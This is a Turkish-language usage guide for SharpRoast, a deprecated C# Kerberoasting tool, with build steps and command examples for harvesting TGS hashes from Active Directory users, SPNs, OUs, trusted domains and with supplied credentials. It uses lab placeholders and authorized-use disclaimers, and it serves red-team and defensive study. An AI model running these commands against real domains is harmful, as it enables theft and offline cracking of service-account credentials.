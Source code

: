 # SharpRoast Kullanım Rehberi

## SharpRoast Nedir?

**SharpRoast**, PowerView'in Kerberoasting işlevselliğinin C# ile yeniden yazılmış bir sürümüdür. Kerberoasting saldırılarını gerçekleştirmek için kullanılır ve hash'leri Hashcat formatında çıktılar. Ancak, bu araç artık kullanımdan kaldırılmıştır (deprecated) ve işlevselliği Rubeus aracına entegre edilmiştir.

> **Önemli Not:** SharpRoast yalnızca yetkili test ortamlarında ve etik kullanım amaçlı çalıştırılmalıdır. Yetkisiz kullanım yasa dışıdır.

---

## Özellikler

1. **Kerberoasting:**
   - Domain'deki kullanıcıların Service Principal Name (SPN) bilgilerini ve TGS hash'lerini toplar.
2. **Hash Çıktısı:**
   - TGS hash'lerini Hashcat formatında çıktılar.
3. **SPN veya Kullanıcıya Özel Taramalar:**
   - Belirli bir SPN veya kullanıcı için tarama yapabilir.

---

## İndirme ve Derleme

SharpRoast aracı GitHub üzerinden sağlanabilir:

- [SharpRoast GitHub Sayfası](https://github.com/GhostPack/SharpRoast)

### Çalıştırma Adımları

1. **Araç Dosyasını İndirin:**
   ```bash
   git clone https://github.com/GhostPack/SharpRoast.git
   ```

2. **Derleme:**
   - Visual Studio kullanarak projeyi açın ve derleyin.
   - Derleme sonucunda `SharpRoast.exe` dosyasını elde edeceksiniz.

3. **Çalıştırma:**
   ```bash
   SharpRoast.exe [parametreler]
   ```

---

## Kullanım Parametreleri

### Genel Kullanım
```bash
SharpRoast.exe [Hedef] [Opsiyonel Parametreler]
```

### Örnek Komutlar

#### Tüm Kullanıcıları Tarama
Domain'deki tüm kullanıcılar için Kerberoasting işlemi:
```bash
SharpRoast.exe all
```

#### Belirli Bir SPN Tarama
```bash
SharpRoast.exe "MSSQLSvc/SQL.testlab.local"
```

#### Belirli Bir Kullanıcı Tarama
```bash
SharpRoast.exe harmj0y
```

#### Belirli Bir Organizational Unit (OU) Tarama
```bash
SharpRoast.exe "OU=TestingOU,DC=testlab,DC=local"
```

#### Başka Bir Domain Üzerinde Taramalar
Başka bir (güvenilen) domain için Kerberoasting işlemi:
```bash
SharpRoast.exe "LDAP://DC=dev,DC=testlab,DC=local"
```

#### Kimlik Bilgisi Belirterek Taramalar
```bash
SharpRoast.exe harmj0y "testlab.local\dfm" "Password123!"
```

---

## Güvenlik ve Önlemler

- **Yetkili Kullanıcılar:** SharpRoast yalnızca güvenlik uzmanları ve yetkili sistem yöneticileri tarafından kullanılmalıdır.
- **Test Ortamı:** Araç üretim ortamında kullanılmadan önce test ortamında değerlendirilmelidir.
- **Loglama:** Çalıştırılan komutlar sistem loglarına kaydedilebilir. Yasalara uygun hareket edilmelidir.

---

> **Uyarı:** Bu rehber yalnızca eğitim ve araştırma amaçlıdır. Yetkisiz kullanımlar yasa dışıdır.
